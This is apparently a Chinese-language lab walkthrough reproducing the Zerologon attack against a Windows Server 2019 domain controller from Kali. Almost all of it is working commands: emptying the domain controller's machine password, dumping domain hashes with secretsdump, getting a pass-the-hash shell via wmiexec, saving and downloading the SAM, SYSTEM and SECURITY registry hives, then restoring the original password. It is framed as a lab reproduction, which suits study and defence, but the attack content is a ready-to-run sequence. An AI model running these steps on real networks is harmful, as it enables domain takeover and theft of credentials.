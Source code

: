 域环境搭建参见：https://github.com/ybdt/post-hub/blob/main/7-横向移动/2021_07_03_域环境搭建/readme.md

受害机器：Win2019_x64_zh-cn
攻击机器：kali
复现过程共5个步骤

```
git clone https://github.com/risksense/zerologon
git clone https://github.com/SecureAuthCorp/impacket
cd ./impacket && pip3 install .
```

步骤1：在第一个终端下置空域控的机器用户密码：
```
cd ./zerologon
python3 ./set_empty_pw.py WIN-184MQ8D0KOO 192.168.202.138
其中WIN-184MQ8D0KOO为域控的计算机名，192.168.202.138为域控的ip地址
定位域控可通过命令：net time /domain
```
如下图：  
![image](./pic/1.png)

步骤2：在第二个终端下提取域控中存储的密码哈希：
```
cd ./impacket/examples/
python3 ./secretsdump.py -no-pass -just-dc ybdt.best/WIN-184MQ8D0KOO\$@192.168.202.138
这里要注意$前有一个\，否则会报错名字或服务未知
```
![image](./pic/2.png)

步骤3：在第三个终端下使用提取的administrator的密码哈希执行命令，拿到伪交互式shell：
```
cd ./impacket/examples/
python3 ./wmiexec.py ybdt.best/administrator@192.168.202.138 -hashes :a87f3a337d********f9416be5787d86

reg save HKLM\SYSTEM system.save
reg save HKLM\SAM sam.save
reg save HKLM\SECURITY security.save
lget sam.save
lget security.save
lget sysetm.save
del sam.save
del security.save
del system.save
```
如下图：  
![image](./pic/3.png)

步骤4：在第四个终端下提取原机器用户的密码哈希
```
python3 secretsdump.py -sam sam.save -system system.save -security security.save local
```
如下图：  
![image](./pic/4.png)

步骤5：在第五个终端下恢复原机器用户的密码哈希
```
python3 ./reinstall_original_pw.py WIN-184MQ8D0KOO 192.168.202.138 ffdab15f085c47cec9de338787e3a66c37004a694e1b0d87f675851b5b860ce16988ffa47b2a85d6e5c7af761ef9ef50a53dabfe6b62d9207a7519a6642548fd6c5ac5a0853446c178aef63da854daf6da389d7ce5c4abd1823f43aea1edde71e6d9e47933638fa06a41c3c79fa862577af77287abbadd77f5675d89c166f8e26e232693564fba153f38ccc3032b639691bd667015e5c5846251a67caaac75bf5255264600587222f7583182eb19d3e17284dbd7774a24216ad9ab601067578155c690d27044bf6765e6665bea36b0f059ae000ae9bfcc908b097b5085bdda71b883360d5a4eab76b5d2dd57b383b9
```
如下图：  
![image](./pic/5.png)
